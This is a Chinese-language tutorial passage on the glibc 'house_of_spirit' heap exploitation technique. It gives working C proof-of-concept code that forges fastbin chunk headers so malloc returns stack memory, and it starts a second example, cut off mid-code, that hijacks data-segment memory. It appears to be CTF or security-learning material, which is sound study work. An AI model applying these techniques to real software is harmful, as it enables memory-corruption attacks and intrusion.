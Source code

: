## house_of_spirit

**将栈内存放入fastbin中**
关键在于伪造两个`fastbin chunk header`.然后覆盖一个堆指针变量使其指向第一个`fast bin chunk`,`free`后再`malloc`使两个`fast bin chunk`间的区域可控.
条件：
- free的chunk size要在对应的fastbin中。
-   需要绕过free操作中**next chunk size**判断：不能太大也不能太小。

这个样例需要 2.26<=glibc<2.32版本，低版本注释掉tcache的部分即可
```c
#include <stdio.h>
#include <stdlib.h>

int main() {

  char *disable_tcache[8];
  unsigned long long *a;
  unsigned long long fake_chunks[10] __attribute__((aligned(16)));

  for (int i = 0; i < 7; i++) {
    disable_tcache[i] = malloc(0x30);
  }
  for (int i = 0; i < 7; i++) {
    free(disable_tcache[i]);
  }

  // fake size
  fake_chunks[1] = 0x40;

  // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
  // fake next chunk size
  fake_chunks[9] = 0x1234;

  // free a pointer on the stack;
  a = &fake_chunks[2];
  free(a);

  for (int i = 0; i < 7; i++) {
    disable_tcache[i] = malloc(0x30);
  }

  fprintf(stderr,
          "the next malloc will return the region of our fake chunk at %p, "
          "which will be %p!\n",
          &fake_chunks[1], &fake_chunks[2]);
  fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

劫持data段数据。
```c
#include <stdio.h>
#include <stdlib.h>

size_t fake_size = 0x81;
char hijack_this_str[0x20] = "hhhhhhh\n";
int main() {
  char *a, *b, *c;
  a = malloc(0x70);
  b = malloc(0x70);

  printf("before hijack:%s", hijack_this_str);
  // firest free a then free b
```